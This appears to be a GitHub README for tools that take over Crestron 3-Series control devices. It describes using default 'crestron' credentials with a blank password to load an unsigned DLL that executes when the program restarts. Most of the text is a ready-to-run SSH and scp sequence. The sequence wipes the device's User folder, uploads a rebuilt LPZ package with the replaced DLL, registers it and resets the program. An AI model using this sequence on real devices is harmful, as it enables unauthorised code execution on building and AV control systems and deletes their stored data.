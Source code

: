 # crestron
Tools for taking over Crestron 3-Series devices

If you have authenticated access, or the default `crestron:<blank>` credentials are still enabled, you can use the above Simpl applications to load an unsigned DLL that will be executed when the program is (re)started with PROGRESET.

The DLL folder contains a Visual Studio 2008 project with a simple class. Recompiling the class and replacing the DLL.dll in the LPZ file of your choice (either in the file itself or after deployment) will set you up for success, hopefully.

This assumes you are starting from a clean slate. If you would like to factory reset the device to ensure nothing weird happens, SSH into the device and run `INITIALIZE`.
```
mkdir tmp
cd tmp
unzip ../pro3.lpz
ssh crestron@192.168.1.240 del \\User\\*
scp * crestron@192.168.1.240:\\User
ssh crestron@192.168.1.240 copy \\User\\boot.bt \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\DLL.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa_archive.zip \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.bin \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.cdm \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.rte \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpCustomAttributesInterface.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpData.dat \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpHelperInterface.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusLibrary.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusManagerApp.exe \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusObjects.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 progregister -P:all
ssh crestron@192.168.1.240 progreset

```
